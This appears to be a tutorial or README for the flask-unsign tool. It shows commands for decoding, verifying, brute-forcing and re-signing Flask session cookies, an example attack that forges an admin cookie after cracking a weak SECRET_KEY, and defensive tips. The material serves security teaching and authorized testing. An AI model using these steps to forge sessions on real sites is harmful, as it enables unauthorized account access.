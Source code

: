 # flask-unsign – Flask Session Analysis Tool

`flask-unsign` is a powerful tool used to **decode**, **verify**, **sign**, and even **brute-force** Flask session cookies. It's commonly used for **penetration testing**, **CTF challenges**, and **security auditing**.

> ⚠️ This tool is intended for ethical use and authorized security testing only.

---

## 🛠️ Installation

```bash
pip install flask-unsign
```

---

## 📌 Flask Sessions Overview

Flask stores session data in client-side cookies, which are:
- **Serialized** using JSON
- **Compressed** with zlib
- **Signed** with HMAC using the app’s `SECRET_KEY`

If the `SECRET_KEY` is weak or leaked, session manipulation becomes possible — this is where `flask-unsign` is useful.

---

## 📚 Commands and Usage

### 1. 🔍 Decode a session cookie

Reads and decodes the data from a Flask cookie without verifying the signature.

```bash
flask-unsign --decode --cookie "<cookie_value>"
```

**Example:**
```bash
flask-unsign --decode --cookie "eyJ1c2VyIjoiYWRtaW4ifQ.Yq7qeg.uqTvnYyGLV...=="
```

**Output:**
```json
{
  "user": "admin"
}
```

---

### 2. 🔑 Verify a session cookie (Check signature with a known secret)

Ensures the cookie is signed with the correct `SECRET_KEY`.

```bash
flask-unsign --unsign --cookie "<cookie_value>" --secret "<SECRET_KEY>"
```

**Example:**
```bash
flask-unsign --unsign --cookie "eyJ1c2VyIjoiYWRtaW4ifQ.Yq7qeg..." --secret "mysecretkey"
```

---

### 3. 🧠 Brute-force the `SECRET_KEY`

Attempts to find the secret key by trying a list of common passwords or words.

```bash
flask-unsign --unsign --cookie "<cookie_value>" -w wordlist.txt
```

**Options:**
- `-w`, `--wordlist`: Path to a wordlist file
- `--no-literal-eval`: Avoid using `literal_eval()` (prevents code execution)

**Example:**
```bash
flask-unsign --unsign --cookie "<cookie>" -w rockyou.txt
```

---

### 4. ✍️ Sign a new session cookie (with known secret)

Create a new signed session cookie from a JSON string, using a known `SECRET_KEY`.

```bash
flask-unsign --sign --cookie '{"user":"admin"}' --secret "<SECRET_KEY>"
```

**Example:**
```bash
flask-unsign --sign --cookie '{"user":"admin"}' --secret "mysecretkey"
```

**Output (signed cookie):**
```
eyJ1c2VyIjoiYWRtaW4ifQ.Yq7qeg.MnKjdfg...
```

---

### 5. ⚙️ Full Options Summary

| Option                | Description                              |
|-----------------------|------------------------------------------|
| `--decode`            | Decode a cookie without verifying        |
| `--sign`              | Sign and create a new cookie             |
| `--unsign`            | Verify or brute-force a cookie signature |
| `--cookie <value>`    | The cookie string to work on             |
| `--secret <value>`    | The known secret key                     |
| `--wordlist <path>`   | Path to a wordlist for brute-forcing     |
| `--no-literal-eval`   | Disable `ast.literal_eval` on cookies    |
| `--version`           | Show flask-unsign version                |
| `--help`              | Show command help                        |

---

## 🔐 Example Attack Scenario

1. Target site uses Flask and sets a session like:
   ```python
   session['user'] = 'guest'
   ```

2. Get the cookie:
   ```
   eyJ1c2VyIjoiZ3Vlc3QifQ.Yq7qeg.Nf8d...
   ```

3. Brute-force the `SECRET_KEY`:
   ```bash
   flask-unsign --unsign --cookie "<cookie>" -w wordlist.txt
   ```

4. Sign a new cookie:
   ```bash
   flask-unsign --sign --cookie '{"user":"admin"}' --secret "<discovered_key>"
   ```

5. Send new cookie in browser and gain elevated access.

---

## 🛡️ How to Defend

- Use a long, unpredictable `SECRET_KEY`
- Don’t store sensitive logic in cookies
- Consider server-side session management (e.g., Redis)

---

## 📎 Resources

- GitHub: https://github.com/Paradoxis/flask-unsign  
- Flask session structure: https://flask.palletsprojects.com/

---

## ⚠️ Disclaimer

This tool is for **educational and ethical testing** purposes. Unauthorized use against systems without permission is illegal.
